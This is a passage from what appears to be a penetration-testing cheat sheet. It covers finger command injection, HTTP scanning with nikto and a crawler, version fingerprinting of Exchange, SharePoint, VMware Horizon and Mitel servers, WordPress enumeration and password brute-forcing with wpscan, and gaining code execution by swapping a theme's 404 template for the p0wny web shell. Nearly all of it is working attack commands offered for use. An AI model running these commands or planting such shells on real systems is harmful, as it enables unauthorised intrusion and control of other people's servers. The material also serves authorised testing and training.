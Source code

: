 ### Command execution

```
finger "|/bin/id@<IP>"
finger "|/bin/ls -a /<IP>"
```

---

## HTTP - HTTPS - 80 - 443

### Automatic scanners

```
nikto -h <URL>
python crawleet.py -u <URL> -b -d 3 -e jpg,png,css -f -m -s -x php,txt -y --threads 20
```
### Application Specific Footprinting

|**Name**|**Instruction**|
|-----------------|------------------------------------------------------------------------------------------------------------------------------------------------|
|Mitel Micollab|`view source of HOST/ucs/micollab/ , Full version within source. >v9.4sp2 vulnerable to Log4j`|
|OnPrem Exchange|`/EWS/Exchange.asmx full version of server within response header`|
|Sharepoint Server|`Able to fingerprint version of Sharepoint via either null login attempt (Return header) or /_vti_pvt/service.cnf. `|
|VMWare Horizon| `/portal/info.jsp may also be /appblast/info.jsp  vmware client version , able to enumate version via download link/documentation E.G 2203 means using 2111 connection server `|
|[Drupal](https://github.com/DeathHacks/droopescan)| Up to date version of Droopescan using rainbow table to determine version.  Scripts to populate table available on github  |

### Wordpress

```
# Get Version  
Within /feed/  
example <generator>https://wordpress.org/?v=5.8.10</generator> 

# Scan
wpscan --rua -e --url <URL>

# Brute force user(s)
wpscan --rua --url <URL> -P <PASSWORDS_LIST> -U "<USER>,<USER>"
```

#### Wordpress panel RCE

```
Modifying a php from the theme used (admin credentials needed)

Appearance -> Editor -> 404 Template (at the right)
Change the content for a php shell
https://raw.githubusercontent.com/flozz/p0wny-shell/master/shell.php
http://<IP>/wp-content/themes/twentytwelve/404.php
```
